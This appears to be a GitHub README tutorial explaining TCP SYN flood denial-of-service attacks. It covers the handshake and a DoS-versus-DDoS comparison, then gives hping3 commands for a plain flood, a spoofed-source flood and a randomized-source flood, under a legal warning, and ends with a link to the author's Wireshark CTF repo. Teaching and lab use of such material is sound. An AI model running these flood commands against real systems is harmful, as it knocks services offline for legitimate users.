 # 🌐 DoS & DDoS - TCP SYN Flood Attack

A TCP SYN Flood is a type of **Denial-of-Service (DoS)** or **Distributed Denial-of-Service (DDoS)** attack where the attacker sends many SYN requests to a target server with the intention of overwhelming the system and exhausting its resources.

---

## 🚨 What is a SYN Flood Attack?

TCP uses a **3-way handshake**:
1. Client sends **SYN**
2. Server replies with **SYN-ACK**
3. Client replies with **ACK**

In a SYN flood:
- The attacker sends multiple **SYN** packets with spoofed or unreachable IP addresses.
- The server waits for the **ACK** that never arrives.
- This leads to a backlog of **half-open connections**, consuming system resources and making the server **unresponsive** to legitimate users.

---

## 💣 DoS vs DDoS

| DoS (Denial of Service)         | DDoS (Distributed Denial of Service)     |
|---------------------------------|-------------------------------------------|
| Single attacker                 | Multiple devices (botnet) attack at once |
| Easier to detect & block        | Harder to block due to scale             |
| Less bandwidth consumption      | High volume, often in the gigabits/sec   |

---

## 🛠️ Example Commands

### 🔹 Using `hping3` (Linux/Kali)

#### ⚠️ Legal Warning
> Only use on authorized systems. Unauthorized use is illegal and unethical.

### 🧪 Basic TCP SYN Flood (DoS)
```bash
hping3 -S -p 80 -c 10000 <target-ip>
```

### 🎯SYN Flood with Spoofed Source

```bash
hping3 -S -p 80 -a 1.2.3.4 -c 10000 <target-ip>
```

### 🌐DDoS-Like SYN Flood (Randomized IPs)
```bash
hping3 -S --flood --rand-source -p 80 <target-ip>
```
### I have shared an assignment of simple CTF in Wireshark which in my Repo
```bash 
https://github.com/Harish5nu/Simple-CTF
```
